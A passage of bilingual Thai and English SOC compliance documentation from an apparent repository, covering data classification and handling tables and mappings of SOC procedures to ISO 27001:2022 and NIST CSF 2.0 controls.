| **Separation of duties** | การจัดการหลักฐานต้อง dual sign-off |
| **Access review** | ทบทวนทุกไตรมาส |
| **Logging** | บันทึกการเข้าถึง L3/L4 ทุกครั้ง |

---

## 5. Compliance Mapping

| กรอบ | Controls ที่เกี่ยวข้อง |
|:---|:---|
| **ISO 27001** | A.8.2 (Classification), A.8.3 (Media handling) |
| **NIST 800-53** | SC-28 (Protection at Rest), MP-6 (Media Sanitization) |
| **PDPA** | มาตรา 37 (มาตรการรักษาความปลอดภัย), มาตรา 40 (แจ้งเตือนเหตุรั่วไหล) |

---

## ตัวอย่างการจำแนกข้อมูลสำหรับ SOC

| ประเภทข้อมูล | การจำแนก | TLP | ระยะเก็บ | การเข้าถึง |
|:---|:---|:---|:---|:---|
| SIEM alert metadata | ภายใน | AMBER | 1 ปี | SOC ทั้งหมด |
| SIEM raw logs (มี PII) | ลับ | AMBER | 90 วัน | T2+ เท่านั้น |
| Forensic disk images | ลับมาก | RED | ช่วง case + 1 ปี | ทีม case เท่านั้น |
| IOC feeds (สาธารณะ) | สาธารณะ | CLEAR | ไม่จำกัด | SOC ทั้งหมด |
| Incident reports (ภายใน) | ลับ | AMBER | 3 ปี | SOC + ผู้บริหาร |
| ผลสแกนช่องโหว่ | ลับ | AMBER | 1 ปี | SOC + IT |
| Threat intelligence (พันธมิตร) | จำกัด | AMBER/GREEN | 2 ปี | ทีม CTI |
| PII พนักงานจากการสืบสวน | ลับมาก | RED | ปิด case | Lead analyst + DPO |

## การจัดการวงจรข้อมูล



| ขั้นตอน | หน้าที่ SOC | Control |
|:---|:---|:---|
| **สร้าง** | เก็บ log, capture หลักฐาน | อัตโนมัติผ่าน agents/SIEM |
| **จำแนก** | ติด TLP label, หมวดข้อมูล | Manual ตอนสร้าง |
| **จัดเก็บ** | เข้ารหัสตามการจำแนก | เข้ารหัสอัตโนมัติ |
| **ประมวลผล** | เข้าถึงเฉพาะที่จำเป็น (minimization) | บังคับ RBAC |
| **แชร์** | ทำตามกฎ TLP | DLP monitoring |
| **เก็บถาวร** | ย้ายไป cold storage ตาม retention | Lifecycle อัตโนมัติ |
| **ทำลาย** | Secure deletion พร้อม certificate | ยืนยันการทำลาย |

## มาตรฐานคุณภาพข้อมูล

| มิติ | นิยาม | ตัวอย่าง SOC | เป้าหมาย |
|:---|:---|:---|:---|
| **ความสมบูรณ์** | ทุกฟิลด์ที่จำเป็นมีข้อมูล | ทุก alert มี source, dest, timestamp | > 95% |
| **ความถูกต้อง** | ข้อมูลตรงกับความเป็นจริง | ระดับ alert ตรงกับความเสี่ยงจริง | > 90% |
| **ความทันเวลา** | ข้อมูลพร้อมใช้เมื่อต้องการ | Log ถึง SIEM ภายใน 5 นาที | > 99% |
| **ความสอดคล้อง** | ข้อมูลเดียวกันตรงกันข้ามระบบ | ข้อมูลใน ticket ตรงกับ SIEM | > 95% |
| **ความไม่ซ้ำ** | ไม่มี duplicate ที่ไม่จำเป็น | 1 ticket ต่อ 1 incident | 100% |

## เอกสารที่เกี่ยวข้อง

- [PDPA Compliance](PDPA_Compliance.th.md)
- [Data Handling Protocol](../06_Operations_Management/Data_Handling_Protocol.th.md)
- [Forensic Investigation](../05_Incident_Response/Forensic_Investigation.th.md)
- [Access Control Policy](../06_Operations_Management/Access_Control.th.md)

### Data Classification Quick Reference

| Level | Label | Examples | Controls |
|:---|:---|:---|:---|
| 4 - Restricted | ลับมาก | PII, credentials | Encrypted + ACL |
| 3 - Confidential | ลับ | Financial, HR | ACL + logging |
| 2 - Internal | ภายใน | Policies, SOPs | Basic ACL |
| 1 - Public | เปิดเผย | Marketing, website | None |

### Data Handling Quick Reference

| Action | Restricted | Confidential | Internal |
|:---|:---|:---|:---|
| Email | ❌ | Encrypted | ✅ |
| USB copy | ❌ | Approval | ✅ |
| Cloud upload | Encrypted only | Approved cloud | ✅ |
| Print | Approval | ✅ | ✅ |

## อ้างอิง

- [ISO 27001](https://www.iso.org/iso-27001-information-security.html)
- [NIST SP 800-53](https://csrc.nist.gov/publications/detail/sp/800-53/rev-5/final)
- [TLP Protocol](https://www.first.org/tlp/)


---

## File: 07_Compliance_Privacy/ISO27001_Controls_Mapping.en.md

# ISO 27001 Controls Mapping for SOC Operations

> Map SOC operational processes to ISO/IEC 27001:2022 Annex A controls.
>
> Use this document to demonstrate compliance during audits and identify coverage gaps.

---

## 1. Overview

ISO/IEC 27001:2022 is the international standard for Information Security Management Systems (ISMS). This mapping shows how SOC Standard Operating Procedures align with the **93 Annex A controls** grouped into 4 themes.

### Compliance Score



> **52 of 93** Annex A controls are directly or partially addressed by SOC operations.

---

## 2. Organizational Controls (A.5)

| Control | Title | SOC Coverage | SOC Document |
|:---:|:---|:---:|:---|
| A.5.1 | Policies for information security | ✅ Full | [Access Control](../06_Operations_Management/Access_Control.en.md) |
| A.5.2 | Information security roles | ✅ Full | [SOC Team Structure](../06_Operations_Management/SOC_Team_Structure.en.md) |
| A.5.4 | Management responsibilities | ✅ Full | [SOC Metrics & KPIs](../06_Operations_Management/SOC_Metrics.en.md) |
| A.5.5 | Contact with authorities | ✅ Full | [Escalation Matrix](../05_Incident_Response/Escalation_Matrix.en.md) |
| A.5.7 | Threat intelligence | ✅ Full | [TI Lifecycle](../06_Operations_Management/Threat_Intelligence_Lifecycle.en.md) |
| A.5.8 | Information security in project management | 🟡 Partial | [Change Management](../06_Operations_Management/Change_Management.en.md) |
| A.5.23 | Information security for cloud services | ✅ Full | [Cloud Security Monitoring](../06_Operations_Management/Cloud_Security_Monitoring.en.md) |
| A.5.24 | Incident management planning | ✅ Full | [IR Framework](../05_Incident_Response/Framework.en.md) |
| A.5.25 | Assessment and decision on events | ✅ Full | [Severity Matrix](../05_Incident_Response/Severity_Matrix.en.md), [Incident Classification](../05_Incident_Response/Incident_Classification.en.md) |
| A.5.26 | Response to incidents | ✅ Full | [50 Playbooks](../05_Incident_Response/Playbooks/Phishing.en.md), [Tier Runbooks](../05_Incident_Response/Runbooks/Tier1_Runbook.en.md) |
| A.5.27 | Learning from incidents | ✅ Full | [Lessons Learned](../05_Incident_Response/Lessons_Learned_Template.en.md) |
| A.5.28 | Collection of evidence | ✅ Full | [Evidence Collection](../05_Incident_Response/Evidence_Collection.en.md), [Forensic Investigation](../05_Incident_Response/Forensic_Investigation.en.md) |
| A.5.29 | Information security during disruption | ✅ Full | [Disaster Recovery / BCP](../05_Incident_Response/Disaster_Recovery_BCP.en.md) |
| A.5.30 | ICT readiness for business continuity | 🟡 Partial | [DR/BCP](../05_Incident_Response/Disaster_Recovery_BCP.en.md) |
| A.5.35 | Independent review of information security | ✅ Full | [SOC Maturity Assessment](../06_Operations_Management/SOC_Maturity_Assessment.en.md), [SOC Assessment Checklist](../06_Operations_Management/SOC_Assessment_Checklist.en.md) |
| A.5.36 | Compliance with policies | 🟡 Partial | [Compliance Gap Analysis](Compliance_Gap_Analysis.en.md) |
| A.5.37 | Documented operating procedures | ✅ Full | This entire repository |

---

## 3. People Controls (A.6)

| Control | Title | SOC Coverage | SOC Document |
|:---:|:---|:---:|:---|
| A.6.1 | Screening | 🟡 Partial | [SOC Team Structure](../06_Operations_Management/SOC_Team_Structure.en.md) (interview guide) |
| A.6.2 | Terms and conditions of employment | ⬜ Not SOC scope | — |
| A.6.3 | Information security awareness & training | ✅ Full | [Training Checklist](../10_Training_Onboarding/Training_Checklist.en.md), [Analyst Onboarding](../10_Training_Onboarding/Analyst_Onboarding_Path.en.md) |
| A.6.4 | Disciplinary process | 🟡 Partial | [Insider Threat Program](../06_Operations_Management/Insider_Threat_Program.en.md) |
| A.6.7 | Remote working | 🟡 Partial | [VPN Abuse Playbook](../05_Incident_Response/Playbooks/VPN_Abuse.en.md) |

---

## 4. Physical Controls (A.7)

| Control | Title | SOC Coverage | SOC Document |
|:---:|:---|:---:|:---|
| A.7.9 | Security of assets off-premises | ✅ Full | [Lost Device Playbook](../05_Incident_Response/Playbooks/Lost_Device.en.md), [Mobile Compromise](../05_Incident_Response/Playbooks/Mobile_Compromise.en.md) |
| A.7.10 | Storage media | 🟡 Partial | [USB Removable Media Playbook](../05_Incident_Response/Playbooks/USB_Removable_Media.en.md) |

---

## 5. Technological Controls (A.8)

| Control | Title | SOC Coverage | SOC Document |
|:---:|:---|:---:|:---|
| A.8.1 | User endpoint devices | ✅ Full | [Malware Playbook](../05_Incident_Response/Playbooks/Malware_Infection.en.md), EDR monitoring |
| A.8.2 | Privileged access rights | ✅ Full | [Privilege Escalation PB](../05_Incident_Response/Playbooks/Privilege_Escalation.en.md), [Access Control](../06_Operations_Management/Access_Control.en.md) |
| A.8.3 | Information access restriction | ✅ Full | [Access Control](../06_Operations_Management/Access_Control.en.md) |
| A.8.5 | Secure authentication | ✅ Full | [Brute Force PB](../05_Incident_Response/Playbooks/Brute_Force.en.md), [MFA Bypass PB](../05_Incident_Response/Playbooks/MFA_Bypass.en.md) |
| A.8.7 | Protection against malware | ✅ Full | [Malware PB](../05_Incident_Response/Playbooks/Malware_Infection.en.md), [Ransomware PB](../05_Incident_Response/Playbooks/Ransomware.en.md) |
| A.8.8 | Management of technical vulnerabilities | ✅ Full | [Vulnerability Management](../06_Operations_Management/Vulnerability_Management.en.md) |
| A.8.15 | Logging | ✅ Full | [Log Source Matrix](../06_Operations_Management/Log_Source_Matrix.en.md), [Log Source Onboarding](../06_Operations_Management/Log_Source_Onboarding.en.md) |
| A.8.16 | Monitoring activities | ✅ Full | [Network Security Monitoring](../06_Operations_Management/Network_Security_Monitoring.en.md), [Alert Tuning](../06_Operations_Management/Alert_Tuning.en.md) |
| A.8.17 | Clock synchronization | 🟡 Partial | [Log Source Matrix](../06_Operations_Management/Log_Source_Matrix.en.md) |
| A.8.20 | Network security | ✅ Full | [Network Security Monitoring](../06_Operations_Management/Network_Security_Monitoring.en.md) |
| A.8.21 | Security of network services | 🟡 Partial | [DDoS PB](../05_Incident_Response/Playbooks/DDoS_Attack.en.md) |
| A.8.22 | Segregation of networks | 🟡 Partial | [Lateral Movement PB](../05_Incident_Response/Playbooks/Lateral_Movement.en.md) |
| A.8.23 | Web filtering | 🟡 Partial | [Web Attack PB](../05_Incident_Response/Playbooks/Web_Attack.en.md) |
| A.8.25 | Secure development life cycle | 🟡 Partial | [Detection Rule Testing](../06_Operations_Management/Detection_Rule_Testing.en.md) |
| A.8.26 | Application security requirements | 🟡 Partial | [SQL Injection PB](../05_Incident_Response/Playbooks/SQL_Injection.en.md), [API Abuse PB](../05_Incident_Response/Playbooks/API_Abuse.en.md) |
| A.8.28 | Secure coding | 🟡 Partial | [SQL Injection PB](../05_Incident_Response/Playbooks/SQL_Injection.en.md) |

---

## 6. Gap Analysis Summary

### Areas with Strong Coverage (✅)
- **Incident Management** (A.5.24–A.5.28) — Full lifecycle covered by IR Framework + 50 Playbooks
- **Threat Intelligence** (A.5.7) — Dedicated TI Lifecycle + TI Feeds Integration
- **Logging & Monitoring** (A.8.15–A.8.16) — Log Source Matrix + Network/Cloud Monitoring
- **Vulnerability Management** (A.8.8) — Dedicated SOP
- **Business Continuity** (A.5.29) — DR/BCP plan

### Areas Needing Attention (🟡)
- **A.5.8 Project Management** — Add security review checklist for SOC tool deployments
- **A.8.17 Clock Sync** — Add NTP configuration guide to Log Source Onboarding
- **A.8.22 Network Segregation** — Add network zone documentation

### Out of SOC Scope (⬜)
- Physical security controls (A.7.1–A.7.8) — Facility management responsibility
- HR controls (A.6.2, A.6.5, A.6.6) — HR department responsibility
- Cryptography (A.8.24) — Development team responsibility

---

## Related Documents
- [Compliance Mapping](Compliance_Mapping.en.md)
- [Compliance Gap Analysis](Compliance_Gap_Analysis.en.md)
- [PDPA Compliance](PDPA_Compliance.en.md)
- [SOC Maturity Assessment](../06_Operations_Management/SOC_Maturity_Assessment.en.md)


---

## File: 07_Compliance_Privacy/ISO27001_Controls_Mapping.th.md

# ISO 27001 — การแมปการควบคุมสำหรับ SOC

> แมปกระบวนการปฏิบัติงาน SOC กับการควบคุม ISO/IEC 27001:2022 Annex A
>
> ใช้เอกสารนี้เพื่อแสดงความสอดคล้องในระหว่างการ Audit และระบุช่องว่าง

---

## 1. ภาพรวม

ISO/IEC 27001:2022 เป็นมาตรฐานสากลสำหรับระบบบริหารจัดการความมั่นคงปลอดภัยสารสนเทศ (ISMS) การแมปนี้แสดงว่า SOP ของ SOC สอดคล้องกับ **93 การควบคุม Annex A** ที่จัดกลุ่มเป็น 4 หมวด



> **52 จาก 93** การควบคุม Annex A ได้รับการดูแลโดยตรงหรือบางส่วนจากการปฏิบัติงาน SOC

---

## 2. การควบคุมด้านองค์กร (A.5)

| Control | ชื่อ | ครอบคลุม | เอกสาร SOC |
|:---:|:---|:---:|:---|
| A.5.1 | นโยบายความมั่นคงปลอดภัยสารสนเทศ | ✅ | [นโยบายควบคุมการเข้าถึง](../06_Operations_Management/Access_Control.th.md) |
| A.5.2 | บทบาทด้านความมั่นคงปลอดภัย | ✅ | [โครงสร้างทีม SOC](../06_Operations_Management/SOC_Team_Structure.th.md) |
| A.5.7 | ข่าวกรองภัยคุกคาม | ✅ | [วงจรชีวิต TI](../06_Operations_Management/Threat_Intelligence_Lifecycle.th.md) |
| A.5.24 | การวางแผนจัดการเหตุการณ์ | ✅ | [กรอบ IR](../05_Incident_Response/Framework.th.md) |
| A.5.25 | การประเมินและตัดสินใจเรื่องเหตุการณ์ | ✅ | [ตารางความรุนแรง](../05_Incident_Response/Severity_Matrix.th.md) |
| A.5.26 | การตอบสนองต่อเหตุการณ์ | ✅ | [50 Playbooks](../05_Incident_Response/Playbooks/Phishing.en.md), [Runbooks](../05_Incident_Response/Runbooks/Tier1_Runbook.th.md) |
| A.5.27 | การเรียนรู้จากเหตุการณ์ | ✅ | [บทเรียน](../05_Incident_Response/Lessons_Learned_Template.th.md) |
| A.5.28 | การเก็บรวบรวมหลักฐาน | ✅ | [การเก็บหลักฐาน](../05_Incident_Response/Evidence_Collection.th.md) |
| A.5.29 | ความมั่นคงปลอดภัยในช่วงหยุดชะงัก | ✅ | [แผน DR/BCP](../05_Incident_Response/Disaster_Recovery_BCP.th.md) |
| A.5.35 | การทบทวนอิสระ | ✅ | [ประเมินวุฒิภาวะ SOC](../06_Operations_Management/SOC_Maturity_Assessment.th.md) |

## 3. การควบคุมด้านเทคโนโลยี (A.8) — ส่วนที่เกี่ยวข้อง SOC

| Control | ชื่อ | ครอบคลุม | เอกสาร SOC |
|:---:|:---|:---:|:---|
| A.8.2 | สิทธิ์เข้าถึงแบบ Privileged | ✅ | [PB ยกสิทธิ์](../05_Incident_Response/Playbooks/Privilege_Escalation.th.md) |
| A.8.7 | การป้องกันมัลแวร์ | ✅ | [PB มัลแวร์](../05_Incident_Response/Playbooks/Malware_Infection.th.md), [PB แรนซัมแวร์](../05_Incident_Response/Playbooks/Ransomware.th.md) |
| A.8.8 | การจัดการช่องโหว่ | ✅ | [การจัดการช่องโหว่](../06_Operations_Management/Vulnerability_Management.th.md) |
| A.8.15 | การบันทึก Log | ✅ | [ตารางแหล่ง Log](../06_Operations_Management/Log_Source_Matrix.th.md) |
| A.8.16 | กิจกรรมเฝ้าระวัง | ✅ | [เฝ้าระวังเครือข่าย](../06_Operations_Management/Network_Security_Monitoring.th.md) |

---

## สรุปว่าง (Gap)

### ครอบคลุมดี ✅
- **การจัดการเหตุการณ์** (A.5.24–A.5.28) — กรอบ IR + 50 Playbooks
- **ข่าวกรองภัยคุกคาม** (A.5.7) — TI Lifecycle + TI Feeds
- **การบันทึกและเฝ้าระวัง** (A.8.15–A.8.16) — Log Source Matrix + Network/Cloud Monitoring

### ต้องปรับปรุง 🟡
- **A.8.17 การซิงค์เวลา** — เพิ่มคู่มือ NTP ใน Log Source Onboarding
- **A.8.22 การแบ่งเครือข่าย** — เพิ่มเอกสาร Network Zone

---

## เอกสารที่เกี่ยวข้อง
- [Compliance Mapping](Compliance_Mapping.th.md)
- [Compliance Gap Analysis](Compliance_Gap_Analysis.th.md)
- [PDPA Compliance](PDPA_Compliance.th.md)


---

## File: 07_Compliance_Privacy/NIST_CSF_Mapping.en.md

# NIST Cybersecurity Framework 2.0 — SOC Mapping

> Maps SOC operational processes to NIST CSF 2.0 Functions and Categories
>
> Use this document to demonstrate alignment during audits and identify coverage gaps

---

## 1. Overview

The NIST Cybersecurity Framework (CSF) 2.0, released February 2024, organizes cybersecurity activities into **6 Functions** and **22 Categories**. This mapping shows how SOC SOPs address each function.




> **SOC directly covers 12/22 Categories** with full or substantial alignment. 10 remaining categories are outside core SOC scope (HR, procurement, physical security, etc.)

---

## 2. GOVERN (GV) — Organizational Context

| Category | Description | Coverage | SOC Documents |
|:---:|:---|:---:|:---|
| GV.OC | Organizational Context | 🟡 Partial | [SOC 101](../00_Getting_Started/SOC_101.en.md) |
| GV.RM | Risk Management Strategy | 🟡 Partial | [SOC Maturity Assessment](../06_Operations_Management/SOC_Maturity_Assessment.en.md) |
| GV.RR | Roles & Responsibilities | ✅ Full | [SOC Team Structure](../06_Operations_Management/SOC_Team_Structure.en.md), [SOC Team Structure](../06_Operations_Management/SOC_Team_Structure.en.md) |
| GV.PO | Policy | ✅ Full | [Access Control](../06_Operations_Management/Access_Control.en.md), [Data Governance](../07_Compliance_Privacy/Data_Governance_Policy.en.md) |
| GV.SC | Supply Chain Risk | 🟡 Partial | [Third-Party Risk](../05_Incident_Response/../06_Operations_Management/Third_Party_Risk.en.md), [PB-23 Supply Chain](../05_Incident_Response/Playbooks/Supply_Chain_Attack.en.md) |
| GV.OV | Oversight | ✅ Full | [SOC Maturity Assessment](../06_Operations_Management/SOC_Maturity_Assessment.en.md), [SOC Metrics](../06_Operations_Management/SOC_Metrics.en.md) |

## 3. IDENTIFY (ID) — Asset & Risk Understanding

| Category | Description | Coverage | SOC Documents |
|:---:|:---|:---:|:---|
| ID.AM | Asset Management | 🟡 Partial | [Log Source Matrix](../06_Operations_Management/Log_Source_Matrix.en.md) |
| ID.RA | Risk Assessment | ✅ Full | [SOC Maturity Assessment](../06_Operations_Management/SOC_Maturity_Assessment.en.md), [Compliance Gap Analysis](../07_Compliance_Privacy/Compliance_Gap_Analysis.en.md) |
| ID.IM | Improvement | ✅ Full | [Lessons Learned](../05_Incident_Response/Lessons_Learned_Template.en.md), [SOC Maturity Assessment](../06_Operations_Management/SOC_Maturity_Assessment.en.md) |

## 4. PROTECT (PR) — Safeguards

| Category | Description | Coverage | SOC Documents |
|:---:|:---|:---:|:---|
| PR.AA | Identity & Access | ✅ Full | [Access Control](../06_Operations_Management/Access_Control.en.md), [PB-05 Account Compromise](../05_Incident_Response/Playbooks/Account_Compromise.en.md), [PB-27 MFA Bypass](../05_Incident_Response/Playbooks/MFA_Bypass.en.md) |
| PR.AT | Awareness & Training | ✅ Full | [Training Checklist](../10_Training_Onboarding/Training_Checklist.en.md), [SOC Onboarding](../10_Training_Onboarding/SOC_Onboarding.en.md), [Phishing Simulation](../09_Simulation_Testing/Phishing_Simulation.en.md) |
| PR.DS | Data Security | 🟡 Partial | [Data Governance](../07_Compliance_Privacy/Data_Governance_Policy.en.md), [PB-08 Data Exfiltration](../05_Incident_Response/Playbooks/Data_Exfiltration.en.md) |
| PR.PS | Platform Security | 🟡 Partial | [Vulnerability Management](../06_Operations_Management/Vulnerability_Management.en.md) |
| PR.IR | Technology Infrastructure Resilience | ✅ Full | [DR/BCP](../05_Incident_Response/Disaster_Recovery_BCP.en.md) |

## 5. DETECT (DE) — Detection & Analysis ⭐

> **This is the SOC's primary function** — coverage is comprehensive

| Category | Description | Coverage | SOC Documents |
|:---:|:---|:---:|:---|
| DE.CM | Continuous Monitoring | ✅ Full | [Network Monitoring](../06_Operations_Management/Network_Security_Monitoring.en.md), [Cloud Monitoring](../06_Operations_Management/Cloud_Security_Monitoring.en.md), [SOC Checklists](../06_Operations_Management/SOC_Checklists.en.md) |
| DE.AE | Adverse Event Analysis | ✅ Full | [Alert Tuning](../06_Operations_Management/Alert_Tuning.en.md), [Detection Rule Testing](../06_Operations_Management/Detection_Rule_Testing.en.md), [36 Sigma Rules](../08_Detection_Engineering/README.md) |
| DE.DP | Detection Processes | ✅ Full | [Tier 1](../05_Incident_Response/Runbooks/Tier1_Runbook.en.md)/[2](../05_Incident_Response/Runbooks/Tier2_Runbook.en.md)/[3 Runbooks](../05_Incident_Response/Runbooks/Tier3_Runbook.en.md), [Log Source Onboarding](../06_Operations_Management/Log_Source_Onboarding.en.md) |

## 6. RESPOND (RS) — Incident Response ⭐

> **Core SOC mission** — the most thoroughly covered function

| Category | Description | Coverage | SOC Documents |
|:---:|:---|:---:|:---|
| RS.MA | Incident Management | ✅ Full | [IR Framework](../05_Incident_Response/Framework.en.md), [50 Playbooks](../05_Incident_Response/Playbooks/Phishing.en.md), [Severity Matrix](../05_Incident_Response/Severity_Matrix.en.md) |
| RS.AN | Incident Analysis | ✅ Full | [Forensic Investigation](../05_Incident_Response/Forensic_Investigation.en.md), [Evidence Collection](../05_Incident_Response/Evidence_Collection.en.md), [Threat Hunting](../05_Incident_Response/Threat_Hunting_Playbook.en.md) |
| RS.CO | Incident Communication | ✅ Full | [Escalation Matrix](../05_Incident_Response/Escalation_Matrix.en.md), [SOC Communication SOP](../06_Operations_Management/SOC_Communication.en.md) |
| RS.RP | Incident Response Reporting | ✅ Full | [Incident Report Template](../11_Reporting_Templates/incident_report.en.md), [Monthly Report](../11_Reporting_Templates/Monthly_SOC_Report.en.md) |
| RS.MI | Incident Mitigation | ✅ Full | [50 Playbooks](../05_Incident_Response/Playbooks/Phishing.en.md) (containment + eradication sections) |

## 7. RECOVER (RC) — Recovery

| Category | Description | Coverage | SOC Documents |
|:---:|:---|:---:|:---|
| RC.RP | Recovery Planning | ✅ Full | [DR/BCP](../05_Incident_Response/Disaster_Recovery_BCP.en.md) |
| RC.CO | Recovery Communication | ✅ Full | [SOC Communication SOP](../06_Operations_Management/SOC_Communication.en.md), [Escalation Matrix](../05_Incident_Response/Escalation_Matrix.en.md) |
| RC.IM | Recovery Improvements | ✅ Full | [Lessons Learned](../05_Incident_Response/Lessons_Learned_Template.en.md), [Lessons Learned (Post-Incident)](../05_Incident_Response/Lessons_Learned_Template.en.md) |

---

## 8. Coverage Summary

| Function | Categories | SOC Covered | Key Strength |
|:---|:---:|:---:|:---|
| **Govern** | 6 | 3 full + 3 partial | Team structure, policies, oversight |
| **Identify** | 3 | 2 full + 1 partial | Risk assessment, improvement cycle |
| **Protect** | 5 | 3 full + 2 partial | IAM, training, DR/BCP |
| **Detect** | 3 | 3 full | Monitoring, Sigma rules, runbooks |
| **Respond** | 5 | 5 full | IR framework, 50 playbooks, forensics |
| **Recover** | 3 | 3 full | DR/BCP, lessons learned, comms |
| **Total** | **22** | **16 full + 6 partial** | |

### Gaps Requiring Attention 🟡

| Gap | Recommendation | Priority |
|:---|:---|:---:|
| ID.AM Asset Management | Integrate CMDB/asset inventory into Log Source Matrix | Medium |
| PR.DS Data Security | Expand DLP monitoring documentation | Medium |
| PR.PS Platform Security | Add SIEM/EDR hardening guide | Low |
| GV.OC Organizational Context | Reference enterprise risk appetite in SOC charter | Low |

---

## Related Documents
- [ISO 27001 Controls Mapping](ISO27001_Controls_Mapping.en.md)
- [PCI-DSS SOC Requirements](PCI_DSS_SOC_Requirements.en.md)
- [Compliance Mapping](Compliance_Mapping.en.md)
- [Compliance Gap Analysis](Compliance_Gap_Analysis.en.md)

## References
- [NIST CSF 2.0](https://www.nist.gov/cyberframework)
- [NIST CSF 2.0 Reference Tool](https://csrc.nist.gov/projects/cybersecurity-framework/filters#/csf/filters)
- [NIST SP 800-61r2 — Computer Security Incident Handling Guide](https://csrc.nist.gov/publications/detail/sp/800-61/rev-2/final)


---

## File: 07_Compliance_Privacy/NIST_CSF_Mapping.th.md

# NIST Cybersecurity Framework 2.0 — การแมป SOC

> แมปกระบวนการปฏิบัติงาน SOC กับ NIST CSF 2.0 Functions และ Categories
>
> ใช้เพื่อแสดงความสอดคล้องในระหว่างการ Audit และระบุช่องว่าง

---

## 1. ภาพรวม

